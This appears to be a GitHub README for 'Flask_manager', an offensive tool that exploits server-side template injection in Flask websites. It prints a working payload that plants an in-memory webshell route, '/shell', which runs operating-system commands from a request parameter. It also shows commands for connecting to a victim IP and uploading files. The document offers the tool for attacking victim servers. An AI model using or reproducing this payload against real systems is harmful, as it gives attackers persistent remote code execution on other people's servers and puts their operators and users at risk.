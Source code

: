 # Flask_manager

If you know a website  based on Flask framework, which is SSTI vulnerable then, this tool will help you to generate a Flask memory horse payload for exploiting SSTI (Server-Side Template Injection) and gaining RCE (Remote Code Execution). And also it will help you to get the Webshell on the victim server. 

## About

This tool can generate payload :

```
url_for.__globals__['__builtins__']['eval']("app.add_url_rule('/shell', 'shell', lambda :__import__('os').popen(_request_ctx_stack.top.request.args.get('cmd', 'whoami')).read())",{'_request_ctx_stack':url_for.__globals__['_request_ctx_stack'],'app':url_for.__globals__['current_app']})
```



## Usage

| Command                     | Description    |
| :-------------------------- | -------------- |
| flask_manager --help        | Help           |
| flask_manager --url x.x.x.x | Target connect |



## Examples

* Start the tool

```bash
python flask_manager --url 192.168.225.149
```

* Upload file

```
upload
```



## Screenshot

![](E:\DESKTOP\Flask_manager\代码\IMAGE\1.PNG)

![2](E:\DESKTOP\Flask_manager\代码\IMAGE\2.PNG)

![3](E:\DESKTOP\Flask_manager\代码\IMAGE\3.PNG)

![4](E:\DESKTOP\Flask_manager\代码\IMAGE\4.PNG)

![5](E:\DESKTOP\Flask_manager\代码\IMAGE\5.PNG)

![6](E:\DESKTOP\Flask_manager\代码\IMAGE\6.PNG)

![7](E:\DESKTOP\Flask_manager\代码\IMAGE\7.PNG)

![8](E:\DESKTOP\Flask_manager\代码\IMAGE\8.PNG)

![9](E:\DESKTOP\Flask_manager\代码\IMAGE\9.PNG)

![10](E:\DESKTOP\Flask_manager\代码\IMAGE\10.PNG)

![11](E:\DESKTOP\Flask_manager\代码\IMAGE\11.PNG)

![12](E:\DESKTOP\Flask_manager\代码\IMAGE\12.PNG)

![13](E:\DESKTOP\Flask_manager\代码\IMAGE\13.PNG)